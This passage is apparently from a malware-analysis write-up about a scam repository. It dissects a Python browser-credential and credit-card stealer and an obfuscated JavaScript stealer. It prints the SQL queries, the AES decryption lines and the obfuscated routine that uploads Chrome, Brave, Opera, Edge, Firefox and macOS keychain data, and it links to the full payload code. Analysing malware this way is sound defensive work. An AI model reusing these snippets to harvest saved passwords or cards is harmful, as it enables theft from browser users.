We will dive into this code. It's really fantacy.

### Deeper in Brow106_81.py

This code performs the following actions:

#### 1. It targets browsers’ login and web data SQLite databases

The class `ChromeBase` has these methods:

- **`retrieve_database()`**: Extracts saved login credentials:

```python
cursor.execute(
    "select origin_url, action_url, username_value, password_value, date_created, date_last_used from logins order by date_created"
)
```

>  This SQL query targets the `Login Data` SQLite database used by Chromium-based browsers to store credentials.

- **`retrieve_web()`**: Extracts saved credit card data:

```python
cursor.execute(
    'SELECT name_on_card, expiration_month, expiration_year, card_number_encrypted, date_modified FROM credit_cards'
)
```

>  It accesses the `Web Data` (or related database) to retrieve stored credit card numbers, decrypts them, and appends them to `self.webs`.

#### 2. **It decrypts saved credentials and credit card numbers**

- **On Linux/macOS**:

```python
cipher = AES.new(key, AES.MODE_CBC, IV=iv)
return cipher.decrypt(password).strip().decode('utf8')
```

>  Decrypts password using AES (symmetric encryption), clearly attempting to recover plaintext credentials.

- **On Windows**:

```python
def decrypt_windows_password(password, key):
    ...
```

>  Platform-specific decryption logic, possibly using Windows Data Protection API.

#### 3. It sends this data to a remote server

Using `requests.post`, the collected credentials and credit card data are exfiltrated.

#### 4. It tries to remain stealthy

- Detects the OS platform.
- Silently installs missing dependencies.

#### 5. No user interaction or consent is involved

>  This behavior strongly indicates malicious intent or spyware functionality.

### Deeper in Pay106_81.py

Below is the link of ```Pay106_81.py```:
[Pay106_81.py](https://github.com/VuxNx/REPO_SCAM_WU/blob/master/payload_decrypt.py)

This code setup backdoor and keylogger at Client, nothing markable 🤷‍♂️. Now, back again ```res.js``` 🐡

<hr style="border: none; border-top: 1px solid #ccc;">

This is the main of ```res.js```:

```javascript
  var M = 0;
  const main = async () => {
    try {
      const _0xe68e63 = Math.round(new Date().getTime() / 1000);
      await (async () => {
        try {
          await UpAppData(Chrome_browser, 0, _0xe68e63);
          await UpAppData(Brave_browser, 1, _0xe68e63);
          await UpAppData(Opera_browser, 2, _0xe68e63);
          uploadMozilla(_0xe68e63);
          uploadEs(_0xe68e63);
          if ('w' == platform[0]) {
            await uploadFiles(getAbsolutePath('~/') + "/AppData/Local/Microsoft/Edge/User Data", '3_', false, _0xe68e63);
          }
          if ('d' == platform[0]) {
            await UpKeychain(_0xe68e63);
          } else {
            await UpUserData(Chrome_browser, 0, _0xe68e63);
            await UpUserData(Brave_browser, 1, _0xe68e63);
            await UpUserData(Opera_browser, 2, _0xe68e63);
          }
        } catch (_0xff138d) {}
      })();
      Xt();
    } catch (_0x54b717) {}
  };
  main();
```
And at this point, it’s clear — the content of the main function confirms everything we’ve been suspecting all along.

## The rest...

And now you might be asking: so where’s the rest of the code? Does it serve any purpose? The answer is: yes, it does. After some research, I found they are anti-debugger and regex bomb:



and, 

)

# Conclusion
And with that, we’ve reached the end of this write-up.
Huge thanks to my friends and teammates from BKISC — **Jitensha** and **Rikka** — for their constant support throughout this journey.
The server seems to have been exposed, so it's now down.
I’ll upload the full code to my Github.
::github{repo="VuxNx/REPO_SCAM_WU"}

P/S: Up to this point, the attacker has only changed the attack server. This explains the confusion I had yesterday while writing the write-up: why the obfuscated JS call link was still alive even though the server was down. You can easily find the new server by applying the same analysis method I used above (12/06/2025).


:::note
My original write-up on HackMD:  [REPO SCAM WRITE-UP](https://hackmd.io/@VuxNx/rJXcyJwmel)
:::